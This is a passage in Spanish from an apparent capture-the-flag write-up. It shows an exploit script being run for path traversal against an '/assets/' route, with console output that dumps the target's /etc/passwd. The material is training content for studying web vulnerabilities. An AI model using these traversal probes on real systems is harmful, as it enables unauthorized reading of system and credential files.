 Ahora vamos a realizar la explotación, modificamos el archivo `exploit.sh`

Modificamos las variables `url` y `payload` con la ruta encontrada de la siguiente forma.
![Write-up Image](images/Screenshot_18.png)

Le damos permisos de ejecución, y al ejecutarlo vemos el contenido de `/etc/passwd`, por lo cual confirmamos que es vulnerable a Path Traversal.
```console
$ ./exploit.sh 
[+] Testing with /assets/../etc/passwd
        Status code --> 404
[+] Testing with /assets/../../etc/passwd
        Status code --> 404
[+] Testing with /assets/../../../etc/passwd
        Status code --> 200
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
